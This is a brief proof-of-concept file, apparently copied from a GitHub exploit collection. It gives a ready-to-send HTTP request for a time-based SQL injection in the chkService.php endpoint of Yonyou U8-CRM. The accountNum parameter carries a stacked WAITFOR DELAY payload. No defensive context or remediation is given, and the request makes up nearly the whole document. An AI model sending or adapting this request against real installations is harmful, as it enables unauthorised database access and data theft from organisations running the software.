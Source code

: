 # u8crm_chkService_sqli

```
GET /ajax/chkService.php?Action=chkAccountNumExists&accountNum=1%27;WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=bgsesstimeout-;
Connection: close
```

from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BOA/%E7%94%A8%E5%8F%8BU8-CRM%E7%B3%BB%E7%BB%9FchkService.php%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md
